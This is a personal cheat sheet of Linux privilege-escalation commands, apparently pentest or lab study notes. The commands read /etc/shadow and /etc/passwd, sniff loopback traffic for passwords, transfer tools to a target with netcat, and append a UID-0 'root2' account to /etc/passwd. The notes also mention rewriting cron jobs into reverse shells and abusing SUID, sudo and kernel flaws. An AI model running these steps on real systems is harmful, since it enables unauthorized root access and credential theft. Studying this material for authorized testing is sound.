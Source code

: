 # Enum

## Useful Info
- ``` ls -l /etc/shadow ``` see permission of if can see hashed password 
- ```  id ``` check current user uid, gid (primary group) & groups (other groups)
- ``` cat /etc/passwd ``` lists several user accounts
    ```
        1. Login Name: Indicates the username used for login.
        2. Encrypted Password: This field typically contains the hashed version of the user's password. In this case, the value x means that the entire password hash is contained in the /etc/shadow file (more on that shortly).
        3. UID: Aside from the root user that has always a UID of 0, Linux starts counting regular user IDs from 1000. This value is also called real user ID.
        4. GID: Represents the user's specific Group ID.
        5. Comment:  This field generally contains a description about the user, often simply repeating username information.
        6. Home Folder: Describes the user's home directory prompted upon login.
        7. Login Shell: Indicates the default interactive shell, if one exists.
    ```
- ``` hostname``` OS Type + description (not too useful)
  
- ``` cat /etc/issue ``` | ``` cat /etc/os-release ``` | ```uname -a```OS release & version (better OS Enum)
- ``` ps aux``` show all process 
- ``` ip a ``` list all network card & info in this machine
- ``` route ``` | ``` routel ``` show network routing tables (easy fuck itself localhost services to priv esc)
- ``` ss -anp ``` list all connection
- ``` cat /etc/iptables/rules.v4 ``` need root to see iptables (firewall rules)
  
- ``` ls -lah /etc/cron* ``` list all cron jobs with files and directories 
- ``` crontab -l ``` list the cronjob that current user run | for ``` sudo crontab -l ``` can see jobs run by root
- ``` dpkg -l | rpm ``` list all package 
    ``` 
        Debian-based (Debian, Ubuntu, etc.): dpkg, apt, aptitude
        Red Hat-based (Red Hat Enterprise Linux, CentOS, Fedora, etc.): rpm, yum, dnf
        SUSE-based (openSUSE, SUSE Linux Enterprise, etc.): rpm, zypper
        Arch Linux-based (Arch Linux, Manjaro, etc.): pacman
        Gentoo-based: emerge, Portage
        Slackware-based: pkgtool, slackpkg
        FreeBSD: pkg, FreeBSD Ports
        OpenBSD: pkg_add, OpenBSD Ports
    ```
- ``` find / -writable -type d 2>/dev/null ``` find all writable file of current user
- ``` mount ``` check all mounted filesystems
- ``` cat /etc/fstab ``` check all drives in boot time
- ``` lsblk ``` list all available disk
- ``` lsmod ``` list all drivers installed
- ``` /sbin/modinfo {driver_name} ``` get detail or certain drivers
- ``` find / -perm -u=s -type f 2>/dev/null ``` find all SUID/SGID marked file for ez impersonate permission for everyone
- Can Use ``` strings ``` to read binaries details under ``` /usr/bin ```
- given binary to be executed with root permissions even when launched by a lower-privileged user is called the effective UID (EUID)

## Auto Enum
- file transfer from kali to remote 
   1. remote ``` nc -nlvp 3333 > unix-privesc-check ```
   2. kali ``` nc -nv 192.168.158.214 3333 < unix-privesc-check ```
   3. ``` chmod +x {file_name} ```
- ``` unix-privesc-check standard > output.txt ``` & ignore error
- looks for sussy shit e.g. global writable thing

# Exposed Confidential info
## User trails
- ``` env ``` environ variable
- ``` .bashrc ``` bash config file (this file is fucking hidden on99)
- ``` sudo -l``` list sudoer capabilities to user
- ``` find / -name flag.txt 2>/dev/null ``` find flag.txt in linux

## Service footprints
- ``` watch -n 1 "ps -aux | grep pass" ``` process
- ``` sudo tcpdump -i lo -A | grep "pass" ``` tcp traffic

# Bad File permissions 
## Cron jobss hack
- ``` grep "CRON" /var/log/syslog ``` grep from syslog (messages from various system services and daemons, including the cron daemon)
- change the file to rev shell , ez
## Password authN hack
- unless AD/LDAP, its store in /etc/shadow, write to passwd still works sometimes
- gen 'crypt' hash password ``` openssl passwd {password_plain} ```
- mock user to passwd ``` echo "root2:{password_hashed}:0:0:root:/root:/bin/bash" >> /etc/passwd ```

# Fuck Linux system componenets
### Possible exploit
- GTFO: https://gtfobins.github.io/ 

## Setuid binaries and others
- GTFO: SetUID
- ``` /usr/sbin/getcap -r / 2>/dev/null ``` search misconfigured capabilities e.g. will find perl, ping , or even other binary
- see have ``` cap_setuid+ep```
- go gtfobins look for Capabilities 
- find harder (lookup all bins & PwnKits!!)

### Logic behind
- check if the process is being used by root but normal user trigger ``` ps u -C passwd ```
- e.g ``` passwd ``` will have 1000 0 0 0 = SUID is there | normally all value point to same user
- ``` ls -asl /usr/bin/passwd ``` check permission if have SUID Flag

## Fuck sudo itself
- GTFO: Sudo
- list all current user can use sudo to run 
- brute force those capabilities to PE
- if not success -> check error ``` cat /var/log/syslog | grep {binary_name} ```
- sometimes blocked by apparmor

## Kernal fuck
- search public exploit | sometime need pull file to victim compile and run
- ``` file {binary}``` can see ELF file architecture
- 